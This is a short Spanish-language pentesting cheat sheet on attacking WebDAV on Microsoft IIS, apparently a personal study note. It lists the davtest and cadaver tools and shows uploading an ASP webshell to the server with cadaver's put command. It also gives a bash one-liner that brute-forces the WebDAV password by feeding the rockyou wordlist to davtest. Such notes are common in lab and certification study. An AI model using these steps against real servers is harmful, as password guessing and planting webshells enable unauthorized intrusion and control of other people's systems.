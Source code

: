 # Explotación de WebDAV en IIS

Tags: #IIS #WebDav 

* IIS = Internet Information Services
	* Soporta extensiones de archivos ejecutables:
		* .asp
		* .aspx
		* .config
		* .php

Necesitamos credenciales validas para poder entrar al WebDav en la web
```bash 
❯ http://IP/webdav/
```

## Webshell 

```bash 
/usr/share/webshells/                # Ruta de la Webshell

	# asp, aspx, cfm, jsp, laudanum, perl, php, seclists
```

## Tools 

```bash 
* davtest           # Usada para escanear, autenticar y explotar un WebDAV
* cadaver           # Soporta la subida y bajada de archivos, visualizacion, editar, mover/copiar, borrar, manipular y bloqueo.
```

Esta tool crea un directorio en el servidor y va subiendo archivos con diferentes extensiones además de ver cuales se pueden ejecutar. 
```bash 
❯ davtest -auth <user>:<passwd> -url http://IP/webdav    # Necesitamos credenciales validas, y nos checara que tipo de archivos puedes subir o ejecutar en el servidor 
```

```bash 
❯ cadaver http://IP/webdav           # Puedes acceder al contenido del servidor WebDAB, te preguntara las credenciales, esta tool te desplegara una consola
	❯ put /usr/share/webshells/asp/webshell.asp      # Asi subimos un archivo al servidor Webdav
```

```bash 
❯ davtest -url http://127.0.0.1 -auth admin:admin     # Debemos de tener el usuario y passwd validos para poder usar la tool

	# 1er admin = Usuario 
	# 2do admin = passwd

❯ cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succed); if [ $response ]; then echo "[+] La passwd correcta es: $password"; break; fi; done

# Ataque de Fuerza Bruta para encontrar la passwd con el comando davtest

❯ cadaver http://127.0.0.1     # Sirve para subir archivos, descargar contenido, etc... Debemos de tener el usaurio y passwd validos para la autenticacion 
	❯ mkdri test              # Podriamos crearnos dir en los cuales podemos colocar un recurso 
	❯ cd test 
	❯ put webdav.txt          # Podemos subir un archivo 
```